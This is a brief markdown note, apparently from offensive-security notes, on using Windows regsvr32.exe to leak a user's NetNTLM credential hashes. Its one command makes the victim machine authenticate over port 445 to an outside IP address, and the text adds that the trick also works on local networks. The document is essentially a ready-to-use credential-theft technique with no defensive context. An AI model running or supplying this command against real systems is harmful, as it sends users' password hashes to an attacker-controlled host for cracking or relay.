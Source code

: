 Leaking NetNTLM Hashes Over The Internet
========================================

The regsvr32.exe can be used to leak the authenticated user NetNTLM hashes by making a request to port 445 to arbitrary IP address.

```sh
regsvr32 /s /u /i://35.164.153.224/@something scrobj.dll
```

Where 35.164.153.224 is the IP address to connect to.

The same technique can be used to leak the NetNTLM hashesh on a local network as well.
